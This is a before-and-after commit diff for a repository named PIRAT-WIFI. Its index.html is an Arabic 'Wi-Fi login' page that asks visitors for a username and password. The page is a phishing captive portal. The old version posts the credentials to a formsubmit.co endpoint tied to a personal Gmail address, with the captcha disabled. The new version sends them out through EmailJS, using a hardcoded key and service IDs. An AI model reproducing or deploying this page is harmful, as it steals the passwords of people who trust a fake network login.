

Before and after one commit to rayan386/PIRAT-WIFI, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 368-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,55 +3,61 @@
 <head>
   <meta charset="UTF-8">
   <title>تسجيل دخول Wi-Fi</title>
+  <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
+  <script>
+    (function(){
+      emailjs.init("gP_BeSd5bRueRL4rz"); // ضع الـ Public Key هنا
+    })();
+
+    function sendEmail(e) {
+      e.preventDefault();
+      emailjs.sendForm('service_329u6zc', 'template_38a0azd', e.target)
+        .then(function() {
+          alert('تم الإرسال بنجاح!');
+        }, function(error) {
+          alert('فشل الإرسال: ' + JSON.stringify(error));
+        });
+    }
+  </script>
   <style>
     body {
-      background: #f2f2f2;
-      font-family: 'Segoe UI', sans-serif;
+      font-family: Arial;
+      background: #f4f4f4;
       display: flex;
       justify-content: center;
       align-items: center;
       height: 100vh;
-      direction: rtl;
     }
-    .login-box {
+    form {
       background: white;
-      padding: 30px;
-      border-radius: 12px;
-      box-shadow: 0 0 15px rgba(0,0,0,0.1);
-      text-align: center;
+      padding: 20px;
+      border-radius: 10px;
+      box-shadow: 0 0 10px #ccc;
       width: 300px;
     }
-    input[type="text"], input[type="password"] {
+    input {
       width: 100%;
       padding: 10px;
       margin: 8px 0;
+      border-radius: 5px;
       border: 1px solid #ccc;
-      border-radius: 6px;
     }
     button {
       width: 100%;
       padding: 10px;
       background: #007bff;
+      color: white;
       border: none;
-      color: white;
-      border-radius: 6px;
-      cursor: pointer;
-      font-size: 16px;
-    }
-    button:hover {
-      background: #0056b3;
+      border-radius: 5px;
     }
   </style>
 </head>
 <body>
-  <form class="login-box" action="https://formsubmit.co/onlydanzo87@gmail.com" method="POST">
-    <h2>تسجيل دخول Wi-Fi</h2>
+  <form onsubmit="sendEmail(event)">
+    <h3>تسجيل دخول Wi-Fi</h3>
     <input type="text" name="username" placeholder="اسم المستخدم" required>
     <input type="password" name="password" placeholder="كلمة المرور" required>
     <button type="submit">دخول</button>
-
-    <input type="hidden" name="_captcha" value="false">
-    <input type="hidden" name="_next" value="https://example.com/thanks.html">
   </form>
 </body>
 </html>
```
